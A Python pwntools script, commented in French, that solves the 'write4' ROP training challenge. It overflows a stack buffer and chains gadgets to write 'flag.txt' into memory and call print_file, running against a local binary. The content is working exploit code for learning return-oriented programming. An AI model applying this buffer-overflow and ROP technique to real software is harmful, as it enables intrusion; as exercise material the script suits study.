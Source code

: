 ### Python script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break apres le read dans pwnme
gs='''
b *pwnme+150
c
'''

# Offset avant ecrasement de l'adresse de retour
offset=0x28

# Set up pwntools for the correct architecture
elf =  ELF('write4')
context.binary=elf

print_file=elf.plt['print_file']

data = 0x0601028
# pop r14 ; pop r15 ; ret
pop_r1415=0x400690
# mov qword ptr [r14], r15 ; ret
write_r14=0x400628
# pop rdi ; ret
pop_rdi = 0x400693

# Produie la chaine de gadget pour ecrite un message de taille arbitraire
# à un adresse donnée.
# Le zero final doit être explicite
def w_write(addr, data):
    r=b""
    if type(data) == str:
        data=data.encode()
    for i in range(0,len(data),8):
        r += p64(pop_r1415)
        r += p64(addr)
        r += data[i:i+8]
        r += p64(write_r14)
    return r

log.info("start")
PL =b"A"*offset
PL+=w_write(data,"flag.txt")
PL+=p64(pop_rdi)
PL+=p64(data)
PL+=p64(print_file)

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

io.sendline(PL)
io.interactive()
```
